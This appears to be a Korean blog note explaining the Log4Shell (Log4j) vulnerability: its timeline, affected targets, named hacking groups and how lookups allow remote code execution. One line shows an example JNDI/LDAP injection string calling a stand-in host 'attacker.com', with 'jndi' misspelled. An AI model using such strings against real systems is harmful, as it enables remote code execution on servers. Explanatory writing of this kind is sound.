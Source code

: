 ```yaml
---
title: About Log4j 
categories: [Tech, Issue]
tags: [issue]    
---
```


# Log4J Vulnerability or Log4Shell

## When
- 12/1 부터 사용되어진것으로 예상
- 12/9 알리바바 클라우드팀에서 발견 (Log4J 2.14)
- 12/17 Log4J 2.15.0 업데이트 이후에도 여전히 RCE 가능한게 발견
- 12/18 Log4J 2.17.0 업데이트 

## Where
- java를 사용하는 모든 사이트
- 각 나라의 정부 웹사이트, 애플,테슬라,마인크래프트 등 정부와 기업

## What
- Java를 사용하는 웹 사이트, 게임, 서버

## Who
- Hacker
- Hafnium (중국 해킹 그룹)
- Charming Kitten (이란의 해킹 그룹)
## How
- Log4J의 취약점을 이용해서 유저 인풋을 서버가 실행하게 만듬.

## Why
- 해킹하기 위해 


### Concept
- RCE ( Remote code execution)
- 역사상 최악의 보안사태
- CVSS 10/10
- 범위가 매우 크고 넓음.
- Log4J는 Java 의 패키지로, 그 결함으로 인해 원격 코드 조종이 가능해짐.
- Log4J는 로그 기록의 프레임워크 
- 기본적으로 유저의 입력을 백엔드에서 실행하지 않음(Not trust).
- Lookups는 어느정도 유저의 입력을 신뢰함. 
- ${jdni:ldap://attacker.com/a} 식으로 공격. 
- 이 경우 해당 URL 에 포함된 코드가 서버에서 실행이 될 수 있음!
- Dos (Denial of Service)
